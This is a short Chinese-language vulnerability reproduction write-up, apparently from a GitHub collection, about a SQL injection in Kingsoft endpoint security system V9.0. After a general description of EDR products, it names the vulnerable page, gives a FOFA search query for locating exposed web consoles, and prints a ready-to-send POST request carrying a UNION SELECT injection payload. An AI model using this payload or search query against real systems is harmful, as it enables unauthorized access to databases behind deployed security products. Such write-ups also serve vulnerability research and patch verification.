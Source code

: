 # 金山终端安全系统V9.0 SQL注入漏洞复现

## 1.金山终端安全系统介绍

EDR（终端检测与响应）安全设备是一种用于保护计算机终端的安全解决方案。它的作用主要包括以下几个方面：

1. **检测威胁**: EDR 能够监控终端设备上的各种活动，包括文件系统、进程、网络连接等，以识别潜在的威胁行为。它可以检测到各种类型的恶意软件，如病毒、木马、勒索软件等，以及高级持续性威胁（APT）等复杂的攻击。
2. **响应安全事件**: EDR 不仅可以检测威胁，还可以立即采取措施响应安全事件。这可能包括阻止恶意进程、隔离受感染的终端、清除恶意文件等操作，以尽快遏制威胁的扩散，减少损失。
3. **调查和分析**: EDR 提供了丰富的事件记录和数据分析功能，可以帮助安全团队进行调查和分析安全事件。这包括分析攻击路径、确定受影响的系统、找出攻击者的行为模式等，有助于更好地理解威胁并提出有效的应对方案。
4. **安全可见性**: EDR 提供了对终端设备的全面可见性，可以实时监控设备的状态和行为，帮助管理员发现并解决安全问题。

## 2.漏洞概述

金山终端安全系统V9.0 `/inter/update_software_info_v2.php`页面存在sql注入漏洞，该漏洞是由于金山终端安全系统未对用户的输入进行有效的过滤，直接将其拼接进了SQL查询语句中，导致系统出现SQL注入漏洞。

## 3.漏洞复现

FOFA：title=="用户登录-金山终端安全系统V9.0Web控制台"

![截图](91473f4bb3c1a857a67c02860b3f5ab7.png)

poc：

```
POST /inter/update_software_info_v2.php HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded

type=-1+UNION+SELECT+1,user(),3,4,5,6,7,8--&key=&pageCount=0&curPage=
```

![截图](913ec6334c93c7084f8ff852300b93b1.png)

![截图](a6cb26c1ca2a1331b548fcd5693e157c.png)